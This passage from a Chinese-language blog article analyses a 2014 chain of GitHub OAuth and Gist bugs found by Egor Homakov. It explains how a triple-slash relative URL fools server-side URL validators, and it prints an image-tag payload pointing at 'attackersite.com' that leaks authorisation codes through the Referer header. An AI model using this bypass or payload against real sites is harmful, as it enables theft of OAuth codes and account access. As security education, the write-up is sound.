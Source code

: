 
不过，我们可以用一个很诡异的技巧：


**<img src=”///attackersite.com”>**


这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。


##### 像程序员一样的思考


这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，


* 对于绝对路径：你会匹配两个//，后面的可能会是 user@host.com（user@是可选的），然后可能会有:<n>端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。


* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。


好了，如果coolshell.cn网页中的<img src=>或<a href=>中用到的相对路径是 /host.com，那么浏览器会解释成：https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。


但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：


[CoolShell Test](///www.google.com)


`<a href="///www.google.com">CoolShell Test</a>`


关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。


于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。


到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。


#### 第四个bug – Gist把github\_token放在了cookie里


于是Egor在用户的cookie里找到了 github\_token


![](../wp-content/uploads/2014/02/gist_cookie.png)


但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html "Web开发中需要了解的东西")》）。


于是，Egor只能另谋出路。


#### 第五个Bug – 自动给gist授权
